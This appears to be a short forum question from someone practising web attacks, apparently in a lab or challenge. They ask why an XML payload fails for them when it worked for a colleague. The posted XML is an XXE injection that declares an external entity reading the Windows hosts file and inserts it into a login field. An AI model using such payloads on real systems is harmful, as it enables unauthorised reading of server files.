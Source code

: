 ##

i have tried to get this xml through but i get an error even though a colleague of mine did the same and it worked(same with the internet) so i am out of ideas

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY XXE SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts" >
]>
<reset>
  <login>&XXE;</login>
  <secret>Cyber</secret>
</reset>
```
